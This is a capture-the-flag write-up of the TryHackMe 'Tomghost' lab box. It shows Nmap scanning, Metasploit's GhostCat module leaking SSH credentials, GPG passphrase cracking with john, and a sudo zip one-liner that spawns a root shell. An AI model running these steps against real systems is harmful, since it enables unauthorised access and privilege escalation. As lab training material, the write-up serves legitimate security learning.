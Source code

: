 ```yaml
---
title: "Tomghost Exploitation"
date: 2024-10-09T17:33:00+06:00
draft: false
tags: ["hacking", "infosec", "tryhackme", "labs"]
categories: ["Write-ups"]
---
```


## Nmap Scan

I started by scanning the target machine using Nmap to identify open ports and services.

```
nmap -sC -sV -A 10.10.99.183
```

### Nmap Results

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
8080/tcp open  http       Apache Tomcat 9.0.30
```

### Potential Vulnerabilities

- **22/SSH** - OpenSSH 7.2p2 is potentially vulnerable to username enumeration.
- **8080/HTTP** - Apache Tomcat 9.0.30 is vulnerable to GhostCat (CVE-2020-1938).

## Exploiting GhostCat

Using Metasploit, I searched for the GhostCat vulnerability module:

```
msf6 > search ghostcat
```

I selected the module and set the target host:

```
msf6 > use auxiliary/admin/http/tomcat_ghostcat
msf6 auxiliary(admin/http/tomcat_ghostcat) > set rhosts 10.10.99.183
msf6 auxiliary(admin/http/tomcat_ghostcat) > exploit
```

This revealed sensitive file contents:

```
<description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
</description>
```

## SSH Access

I used the extracted credentials to log in via SSH:

```
ssh skyfuck@10.10.99.183
Password: 8730281lkjlkjdqlksalks
```

After gaining access, I checked the home directory and found some files:

```
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

Checking user privileges:

```
skyfuck@ubuntu:~$ sudo -l
Sorry, user skyfuck may not run sudo on ubuntu.
```

I explored another user’s home directory:

```
skyfuck@ubuntu:/home/merlin$ cat user.txt
THM{GhostCat_1s_so_cr4sy}
```

## Decrypting credential.pgp

I imported the GPG key:

```
gpg --import tryhackme.asc
```

Then I attempted to decrypt the credential file:

```
gpg --decrypt credential.pgp
```

Since I didn't have the passphrase, I transferred the file to my machine using a Python3 HTTP server, extracted the hash, and cracked it using `john`:

```
python3 -m http.server 8080  # On target machine
wget http://10.10.99.183:8080/tryhackme.asc  # On my machine
gpg2john tryhackme.asc > hashfile
john hashfile --wordlist=/usr/share/wordlists/rockyou.txt
```

This revealed the passphrase: `alexandru`. Using this, I decrypted the `credential.pgp` file and obtained the credentials for another user, `merlin`.

```
skyfuck@ubuntu:~$ su merlin
Password: 
merlin@ubuntu:/home/skyfuck$ cd ~
merlin@ubuntu:~$ ls
user.txt
```

## Privilege Escalation to Root

Checking `sudo -l`, I found that `merlin` could run `zip` as root without a password:

```
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

Using GTFOBins, I found a privilege escalation method with `zip`:

![Screensot of a gtfobins](https://miro.medium.com/v2/resize:fit:828/format:webp/1*-BFTfrvnc-5aKItIQyMxdQ.png)

```
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# cd /root
# ls
root.txt  ufw
# cat root.txt
THM{Z1P_1S_FAKE}
```

By exploiting the allowed `zip` command, I gained root access and retrieved the final flag. This completed the exploitation of the machine. 

---

